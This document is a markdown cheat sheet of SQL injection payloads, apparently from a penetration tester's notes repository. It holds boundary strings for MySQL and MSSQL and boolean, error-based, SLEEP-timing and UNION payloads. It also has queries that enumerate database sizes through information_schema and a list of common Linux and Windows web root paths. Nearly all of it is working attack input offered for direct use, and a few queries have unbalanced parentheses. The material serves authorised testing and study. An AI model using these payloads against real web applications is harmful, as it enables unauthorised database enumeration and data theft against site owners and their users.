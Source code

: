 # In-Band SQL Query List

Search Tag(s): #helpers #sql-injection #webapp

## Change numeric value of parameter ID

- Before adding to the prefix next to the parameter value. Try to change the numeric value from the list below. Another way to confirm the possible SQL injection vulnerability:

```
id=0
id=-1
id=9999.99
```

- You can of course perform mathematical expressions to see if it responds.

```
id=2-1
```

## Boundaries

### Prefix SQL Query List

```
<whitespace>
'
"
\
')
")
```

### Suffix SQL Query List

#### MySQL

```
--
#
%23 <- # urlencoded
/*
--<whitespace>
-- -
-- //
;%00
`
AND ('abc'='abc
```

#### MSSQL

```
/*
-- //
;%00
```

## SQL Payloads

### Boolean-based Payloads

#### Generic SQL

```
OR 1=1
OR 1=1 LIMIT 1
OR '1'='1'
OR '1'='1' LIMIT 1
OR 1=2
OR 1=2 LIMIT 1
OR SLEEP(10)
AND 1=1
AND 1=1 LIMIT 1
AND '1'='1'
AND '1'='1' LIMIT 1
AND 1=2
AND 1=2 LIMIT 1
AND SLEEP(10)
```

### Error-based Payloads

#### Fields Enumeration

- Increment by determining the number of coulmns

```
ORDER BY n+1
GROUP BY n+1
```

#### Double Injection (SubQuery) Enumeration

```
OR 1=1 IN (SELECT @@VERSION)
AND 1=1 IN (SELECT @@VERSION)
```

### UNION Query Payloads

#### Fields Enumeration

```
UNION SELECT NULL, NULL, ... NULL
```

#### UNION Enumeration

```
UNION SELECT @@VERSION, NULL, ... NULL
```

## Calculate Size

### Database Size

#### MySQL

##### All Databases

- Bytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery

SELECT CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT GROUP_CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

- Kilobytes

```sql
SELECT CONCAT(table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) FROM information_schema.tables GROUP BY table_schema

SELECT CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT GROUP_CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

- Megabytes

```sql
SELECT CONCAT(table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) FROM information_schema.tables GROUP BY table_schema

SELECT CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

- Gigabytes

```sql
SELECT CONCAT(table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) FROM information_schema.tables GROUP BY table_schema

SELECT CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT GROUP_CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

##### Current Database

- Bytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery
```

- Megabytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery
```

- Gigabytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery
```

## Common Web Root Directories

### Linux

```
/var/www/html/
/var/www/
/var/www/htdocs/
/var/www/sites/
/var/www/public/
/var/www/public_html/
/var/www/html/default/
/var/apache2/htdocs/
/var/www/nginx-default/
/usr/local/apache2/htdocs/
/usr/local/www/data/
/srv/www/
/srv/www/html/
/srv/www/htdocs/
/srv/www/sites/
/home/www/
/home/httpd/
/home/$USER/public_html/
/home/$USER/www/
```

### Windows

```
c:\inetpub\wwwroot\
c:\xampp\htdocs\
c:\wamp\www
```

---
## References

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)

- [PayloadsAllTheThings: SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection)

- [Pentestlab Blog: SQL Injection Authentication Bypass Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

- [Hacktricks: SQL Login Bypass](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

- [SecLists: Linux Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)

- [SecLists: Windows Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

- [Sjoerd Langkemper: Finding common files in the webroot](https://www.sjoerdlangkemper.nl/2018/05/23/creating-a-dirsearch-list/)

- [Phrack.me: SQL Injection Cheatsheet](https://www.phrack.me/exploits/2020/07/09/SQL-Injection-primer.html)

- [ExploitDB Papers: Beyond SQLi Obfuscate and Bypass](https://www.exploit-db.com/papers/17934)